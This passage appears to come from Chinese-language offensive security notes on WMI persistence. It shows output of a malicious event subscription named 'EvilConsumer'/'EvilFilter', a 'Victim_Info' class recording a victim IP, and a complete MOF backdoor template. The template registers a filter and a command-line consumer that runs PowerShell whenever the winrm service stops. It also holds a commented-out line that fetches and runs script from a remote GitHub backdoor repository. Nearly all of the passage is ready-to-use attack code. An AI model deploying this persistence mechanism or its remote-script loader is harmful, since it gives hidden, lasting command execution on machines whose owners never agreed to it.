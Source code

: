 ```csharp
__SUPERCLASS            : __IndicationRelated
__DYNASTY               : __SystemClass
__RELPATH               : __FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name=\"EvilConsumer\"",Filter="_
                          _EventFilter.Name=\"EvilFilter\""
__PROPERTY_COUNT        : 7
__DERIVATION            : {__IndicationRelated, __SystemClass}
__SERVER                : OWA2013
__NAMESPACE             : ROOT\subscription
__PATH                  : \\OWA2013\ROOT\subscription:__FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name
                          =\"EvilConsumer\"",Filter="__EventFilter.Name=\"EvilFilter\""
Consumer                : CommandLineEventConsumer.Name="EvilConsumer"
CreatorSID              : {1, 5, 0, 0...}
DeliverSynchronously    : False
DeliveryQoS             :
Filter                  : __EventFilter.Name="EvilFilter"
MaintainSecurityContext : False
SlowDownProviders       : False
PSComputerName          : OWA2013



# server 
PS C:\Server\> ([WMIClass] 'Victim_Info').Properties['victim_ip_10_1_0_213']

    Name       : victim_ip_10_1_0_213
    Value      : Run Command Process : 12/09/2019 15:11:34
    Type       : String
    IsLocal    : True
    IsArray    : False
    Origin     : Victim_Info
    Qualifiers : {CIMTYPE}

```

### MOF 后门

```csharp
#pragma namespace("\\\\.\\root\\subscription")    

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "MyFilter";
    //Query = "Select * From __InstanceModificationEvent "
            //"Where TargetInstance Isa \"Win32_LocalTime\" "
            //"And TargetInstance.Second = 1";
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA \"Win32_Service\" AND TargetInstance.Name = \"winrm\" AND TargetInstance.State = \"Stopped\"";
    QueryLanguage = "WQL";
};    

instance of CommandLineEventConsumer as $Consumer
{
    Name = "MyConsumer";
    CommandLineTemplate = "powershell -Command \"get-date >>C:\\windows\\Temp\\getdate.txt\"";
    ExecutablePath = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
    //ScriptingEngine = "JScript";
    //ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    

```